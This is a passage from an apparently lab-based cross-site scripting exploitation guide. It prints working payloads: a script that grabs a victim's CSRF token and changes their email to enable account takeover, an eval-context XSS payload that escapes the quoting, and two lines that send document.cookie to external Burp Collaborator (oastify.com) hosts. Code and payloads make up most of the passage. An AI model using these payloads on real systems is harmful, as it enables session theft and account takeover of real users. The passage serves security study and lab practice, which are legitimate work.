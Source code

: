 And the following could be used to force a user into changing their email address to test@test.com which can be combined with a "Forgot password" functionality to take over an account:

```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```
# More Exploitation Payloads and Examples

Some more examples can be seen below. For example, the following code is vulnerable as the payload is included into an eval() function. The response type where the payload is reflected is in JSON body:

```javascript
if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText);
            displaySearchResults(searchResultsObj);
}
```

And the payload is below - the app is escaping the quotations but not the backslash character:

```javascript
\"-alert(1)}//
```

An arithmetic operator is then used to separate the expressions before the alert() function is called. Finally, a closing curly bracket and two forward slashes close the JSON object early and comment out what would have been the rest of the object. As a result, the response is generated as follows:

```javascript
{"searchTerm":"\\"-alert(1)}//", "results":[]}
```

Using the above context, the following payload can be used to exfiltrate information. The random query parameter 'x' was included so that way the document cookie will correctly be included in the request sent to Burp Collaborator. This is similiar to a lab, where the exploit server was used to exfiltrate data:

```javascript
\" - (document.location = 'https://xxxx.oastify.com/x?=' + document.cookie)}//
```

Another request is the following which submits a request with the user's cookie to Collaborator:

```javascript
<script> window['document']['location'] = "https://xqr9xaoylma.oastify.com/?test1=" + document.cookie + "test1"; </script>
```
